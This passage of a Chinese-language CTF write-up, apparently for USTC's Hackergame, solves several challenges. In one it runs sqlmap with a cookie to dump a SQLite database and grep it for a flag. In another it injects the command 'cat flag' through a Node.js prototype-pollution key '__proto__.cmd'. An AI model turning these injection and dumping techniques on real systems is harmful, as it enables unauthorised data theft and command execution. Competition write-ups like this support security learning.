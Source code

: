 ```python
            content = soup.get_text(separator="\n").strip()
            output_file.write(content + "\n\n")
            print(f"成功访问: {link}")
        else:
            print(f"访问失败: {link}，状态码: {response.status_code}")

print("saved to output.txt")

```

![image-20241103113028472](../../assets/img/image-20241103113028472.png)

为什么不是114154行 （😡

####  窥视未知

当时挠破脑袋都没想到未知到底未知到哪了，看完附件之后恍然~~大雾~~ （确诊为未为注意力不集中导致的

**attention is all you need!**

`sqlmap --cookie dump` 一把嗦

```bash
sqlmap -u "https://chal01-yh8m6qof.hack-challenge.lug.ustc.edu.cn:8443/view?conversation_id=3e82ebb0-cc9e-4f12-b76c-d35c0d979bf5" --cookie "changeme" --dbms=sqlite --dump | grep 'flag'
```

拖出来之后搜flag即可得到藏着的flag

对应的文章的uuid应该是`24052425-8f7e-4e97-bdc5-b10f13d9538d` `请详细解释以下名词： 水产养殖业中的现状`

![image-20241103115531851](../../assets/img/image-20241103115531851.png)

### Node.js is Web Scale（藏裤裆的flag

这个题考的是 **Node.js 原型链污染** ，阅读题目源码后，设置key为 `__proto__.cmd` ，value是`cat flag`

访问 `/execute?cmd=cmd` 就能得到 flag



### 强大的正则表达式（藏裤裆的flag

第一问

阅读源码后知道需要实现16的取模，能否被16整除只需要看后4位，只需要~~暴力匹配~~后四位即可得到 flag ，见以下借助GPT得到的逆天表达式

```
(0|1|2|3|4|5|6|7|8|9)*((0|2|4|6|8)(000|016|032|048|064|080|096|112|128|144|160|176|192|208|224|240|256|272|288|304|320|336|352|368|384|400|416|432|448|464|480|496|512|528|544|560|576|592|608|624|640|656|672|688|704|720|736|752|768|784|800|816|832|848|864|880|896|912|928|944|960|976|992)|(1|3|5|7|9)(008|024|040|056|072|088|104|120|136|152|168|184|200|216|232|248|264|280|296|312|328|344|360|376|392|408|424|440|456|472|488|504|520|536|552|568|584|600|616|632|648|664|680|696|712|728|744|760|776|792|808|824|840|856|872|888|904|920|936|952|968|984|1000))
```


